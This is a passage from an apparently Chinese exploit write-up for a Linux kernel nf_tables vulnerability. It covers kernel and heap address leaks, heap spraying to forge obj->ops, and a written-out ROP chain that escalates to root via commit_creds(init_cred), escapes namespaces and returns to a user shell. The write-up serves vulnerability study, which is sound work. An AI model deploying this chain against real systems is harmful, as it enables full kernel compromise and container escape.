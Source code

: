 ‍

内核代码段地址泄露的示意图：

​[![](assets/1706146477-0fe2ff9ebb6de4606cdbb6238206a6a0.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221704685-1256649044.png)​

‍

然后泄露堆地址，利用 obj 和 table->udata 重叠泄露 obj->udata 指针，这里存放着伪造的 ops

​[![](assets/1706146477-be7cb62495ee5f7dced6c070038899cd.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221705596-126567413.png)​

> PS: 用户态进程通过 NFTA\_OBJ\_USERDATA 控制 obj->udata 的内容

然后释放 table->udata & 再次堆喷 table->udata 占位修改 obj->ops 到 fake ops。

​[![](assets/1706146477-0cd13acc86ae2cfd243b5a93734fb08c.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221706406-708346821.png)​

最后触发 `obj->ops->dump`​ 执行 ROP

```bash
*(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]
    *(uint64_t *)&ops[0x30] = kernel_off + MODULE_CT_EXPECT_OBJ_TYPE_ADDR;
    *(uint64_t *)&ops[0x60] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x68] = kernel_off + INIT_CRED;//init_cred
    *(uint64_t *)&ops[0x70] = commit_creds;
    *(uint64_t *)&ops[0x78] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x80] = 1;
    *(uint64_t *)&ops[0x88] = kernel_off + 0xffffffff811b5600;//find_task_by_vpid
    *(uint64_t *)&ops[0x90] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x98] = 0;
    *(uint64_t *)&ops[0xa0] = kernel_off + 0xffffffff818624b5;//or rdi, rax ; test rdi, rdi ; setne al ; ret
    *(uint64_t *)&ops[0xa8] = kernel_off + 0xFFFFFFFF815014BE; //pop rsi ; ret
    *(uint64_t *)&ops[0xb0] = kernel_off + 0xFFFFFFFF836765C0;//init_nsproxy
    *(uint64_t *)&ops[0xb8] = kernel_off + 0xffffffff811bd180; //switch_task_namespaces
    *(uint64_t *)&ops[0xc0] = kernel_off + 0xffffffff82141df6;//swagpgs; ret
    *(uint64_t *)&ops[0xc8] = kernel_off + 0xFFFFFFFF82201157;//iretq
    *(uint64_t *)&ops[0xd0] = (uint64_t)shell;
    *(uint64_t *)&ops[0xd8] = user_cs;
    *(uint64_t *)&ops[0xe0] = user_rflags;
    *(uint64_t *)&ops[0xe8] = user_rsp|8;
```